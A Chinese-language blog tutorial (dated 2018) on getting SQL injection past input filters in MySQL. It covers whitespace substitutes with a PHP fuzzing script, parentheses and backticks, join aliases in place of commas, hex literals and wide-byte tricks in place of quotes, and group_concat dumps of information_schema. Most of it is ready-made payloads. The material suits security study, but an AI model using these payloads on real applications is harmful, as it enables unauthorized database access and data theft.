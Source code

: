 # SQL注入绕过过滤

[2018-11-25]()

## [](#前言 "前言")前言

SQL注入经常会遇到过滤的问题，某些关键字被过滤导致注入无法进行下去，这里就总结一下常见的绕过过滤的方法。（本文参考Freebuf文章）

过滤空格应该是最常见的防御措施了，替换空格的方法有很多：

#### [](#1-替换空格 "1. /**/替换空格")1\. /\*\*/替换空格

![](1.png)

### [](#2-0x0a字符替换空格 "2. 0x0a字符替换空格")2\. 0x0a字符替换空格

注意:按住alt键+小键盘输入10再松开alt键即可在控制台中输入ascii字符0x0a  
![](2.png)

### [](#3-0x0b "3. 0x0b")3\. 0x0b

注意:按住alt键+小键盘输入11再松开alt键即可在控制台中输入ascii字符0x0b

![](3.png)

### [](#4-0x0c "4. 0x0c")4\. 0x0c

![](4.png)

### [](#5-0x0d "5. 0x0d")5\. 0x0d

使用0x0d号字符替换空格，注意:按住alt键+小键盘输入13再松开alt键即可在控制台中输入ascii字符0x0d,但因为在控制台中一旦输入0x0d，就会执行指令，所以这里只在union前输入了一次。

![](5.png)

* * *

做到这里会不会想到其他可以替换空格的字符呢，fuzz测试一下：

```
<?php
$mysqli = new mysqli('localhost', 'root', '', 'mysql');
if ($mysqli->connect_errno) {
    die("could not connect to the database:\n" . $mysqli->connect_error);
}
$i=0;
while($i++<256){
    $sql = "select host,user from user where user='a'".chr($i)."union".chr($i)."select 1,2;";
    $res = $mysqli->query($sql);
    if ($res) {
        echo "Ok!:$i:".chr($i)."<br>";
    }    
}
$mysqli->close();
?>
```

将代码放入网页中访问，显示：  
![](6.png)

通过测试可以发现，除了刚才用的还有9号\(tab\)和160号字符也可以替换空格。  
32号本来就是空格，35是注释符

* * *

然后如果这些都被过滤了，有没有别的办法

### [](#1-利用括号、反引号 "1. 利用括号、反引号")1\. 利用括号、反引号

![](7.png)  
select host,user from user where user=’a’union\(select`table_name`,`table_type`from`information_schema`.`tables`\);  
利用括号、反引号来隔离sql关键词与库名表名列名，完成了注入。

### [](#2-join语句和子查询的别名来替换逗号 "2. join语句和子查询的别名来替换逗号")2\. join语句和子查询的别名来替换逗号

![](8.png)  
在这个语句中，我们利用join与别名，成功的避免使用逗号实现了注入：

```
select host,user from user where user='a'union(select*from((select`table_name`from`information_schema`.`tables`where`table_schema`='mysql')`a`join(select`table_type`from`information_schema`.`tables`where`table_schema`='mysql')b));
```

像这种嵌套语句，好像可以多次嵌套，比如：

```
select*from(select'1')a2
select*from(select*from(select'1')a2)a3
select*from(select*from(select*from(select'1')a2)a3)a4
select*from(select*from(select*from(select*from(select'1')a2)a3)a4)a5
```

### [](#3-绕过反引号 "3. 绕过反引号")3\. 绕过反引号

在库名、表名、列名不带空格、_、\{、\}等特殊符号的情况下，语句中的反引号也可以用括号代替  
select host,user from user where user=’a’union\(select_from\(\(\(select\(table\_name\)from\(information\_schema.tables\)where\(table\_schema\)=’mysql’\)a\)join\(select\(table\_type\)from\(information\_schema.tables\)where\(table\_schema\)=’mysql’\)b\)\);

### [](#4-过滤单引号 "4. 过滤单引号")4\. 过滤单引号

**如果存在宽字节注入**，那么即使过滤了单引号，我们也可以注入，这时语句变成这样：  
select host,user from user where user=’a\?’union\(select\*from\(\(\(select\(table\_name\)from\(information\_schema.tables\)where\(table\_schema\)=0x6D7973716C\)a\)join\(select\(table\_type\)from\(information\_schema.tables\)where\(table\_schema\)=0x6D7973716C\)b\)\);

### [](#5-其他技巧 "5.其他技巧")5.其他技巧

某些web应用只取查询结果的第一行，这时可以使用group\_concat\(\)来获取完整数据,例如：

```
select host,user from user where user='a?'union(select*from(((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=0x6D7973716C)a)join(select(table_type)from(information_schema.tables)where(table_schema)=0x6D7973716C)b));
```

也可以多加几个条件判断来逐行获取所要的数据：

```
select host,user from user where user='a?'union(select*from(((select(table_name)from(information_schema.tables)where(table_schema)=(0x6D7973716C)and(table_name)!=(0x6462)and(table_name)!=(0x67687478).......)a)join(select(0x77)from(information_schema.tables)where(table_schema)=0x6D7973716C)b));
```